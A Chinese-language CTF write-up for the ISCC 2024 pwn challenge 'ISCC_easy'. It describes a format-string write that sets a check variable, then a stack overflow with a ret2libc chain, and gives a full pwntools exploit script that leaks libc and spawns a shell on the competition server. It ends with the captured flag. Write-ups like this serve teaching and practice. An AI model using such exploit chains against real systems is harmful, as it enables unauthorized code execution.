




# ISCC2024 WriteUp

GX-rainbow + 杨智林 + 3436865331@qq.com

# 练武题PWN——ISCC_easy分析

来自[练武题 | ISCC 2024 (isclab.org.cn)](https://iscc.isclab.org.cn/challenges#ISCC_easy)

简单看一下，这是一道ret2libc题，外加了一个格式化字符串漏洞绕过，我们来开始checksec一下吧





用32位IDA打开，可以看到存在格式化字符串漏洞，x必须等于5才能进入welcome函数，所以利用执行任意地址写，把x修改成我们想要的



继续跟进welcome函数，可以看到read存在溢出，溢出长度0x100-0x90=0x70，由于程序里没有可利用的系统调用和"/bin/sh"，所以进行常规ret2libc操作



# exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux',arch='i386',log_level='debug')
p=remote('182.92.237.102',10013)
#p=process('./ISCC_easy')
elf=ELF('./ISCC_easy')
libc=ELF('./libc6-i386_2.31-0ubuntu9.14_amd64.so')
x=0x804C030	#要修改的地址
payload1=flat(b'%5c%6$na',p32(x))
p.sendlineafter('fun!\n',payload1)
#gdb.attach(p)
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
libc_puts=libc.sym['puts']
ret_addr=elf.sym['welcome']
payload2=flat(cyclic(0x94),p32(puts_plt),p32(ret_addr),p32(puts_got))
p.sendlineafter('Input:\n',payload2)
puts_addr=u32(p.recv(4))
#print(hex(puts_addr))
base=puts_addr-libc_puts	#偏移
#print(hex(base))
system_addr=base+libc.sym['system']
bin_sh=base+0x18C363	#libc中的字符串"/bin/sh"地址
#print(hex(system_addr))
payload3=flat(cyclic(0x94),p32(system_addr),p32(ret_addr),p32(bin_sh))
p.sendlineafter('Input:\n',payload3)
p.interactive()
```

拿到flag

```
ISCC{IsCu4w4AdYDWZnVyGGRPAdz8wDfxC5PUhYos}
```

